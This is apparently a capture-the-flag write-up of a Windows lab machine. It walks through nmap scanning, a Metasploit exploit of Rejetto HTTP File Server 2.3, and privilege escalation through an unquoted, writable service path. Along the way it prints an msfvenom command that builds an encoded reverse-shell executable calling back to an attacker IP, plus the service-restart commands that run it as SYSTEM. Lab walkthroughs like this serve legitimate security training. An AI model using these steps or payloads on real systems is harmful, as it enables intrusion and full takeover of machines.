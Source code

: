 # Enumeration
Run nmap to check service running
```sh
nmap -sV 10.10.99.191
```

```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl          Microsoft SChannel TLS
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
```

Run complete scan with -A and we can see port 8080 used by Rejetto HTTP File Server version 2.3.

# Exploitation
Now we can check for exploit for this version and use metasploit to exploit it.
![image](https://github.com/vivekprm/hackers-manual/assets/2403660/eef133f9-c4bd-44bb-8f55-dcf11b923e80)

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/27708756-81d9-466d-a727-c7f969634b5e)

And now we have meterpreter shell.

# Privilege Escalation
To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - "PowerUp 
aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."

You can download the script [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1).  If you want to download it via the command line, be careful not to download the GitHub page instead of the raw script. Now you can 
use the upload command in Metasploit to upload the script.

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/0adebe48-4b06-470f-a964-5413d37e33d3)

To execute this using Meterpreter, I will type load powershell into meterpreter. Then I will enter powershell by entering powershell_shell:
```sh
meterpreter>powershell_shell
```

Run all checks
![image](https://github.com/vivekprm/hackers-manual/assets/2403660/76138e83-faa1-43ce-bda1-6e6dcc25ccb1)

```
ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe;
                 IdentityReference=STEELMOUNTAIN\bill; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths
```

The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace 
the legitimate application with our malicious one, restart the service, which will run our infected program!

Use msfvenom to generate a reverse shell as an Windows executable.
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.17.19.58 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```

Now upload this payload to somewhere in this path "C:\Program Files (x86)\IObit\Advanced SystemCare\" which we have write access. Since path is not quoted we
can upload it at "C:\Program Files (x86)\IObit\" which is writeable for us.

Now before stoping and starting the AdvancedSystemCareService9 program let's run our handler.

![image](https://github.com/vivekprm/hackers-manual/assets/2403660/fb502137-dfb7-4700-bf00-905b0038ebd9)

Now go to shell from meterpreter:
```sh
meterpreter>shell
```

And restart the service using below commands:
```sh
sc stop AdvancedSystemCareService9
sc start AdvancedSystemCareService9
```

And we have a shell with NT System.

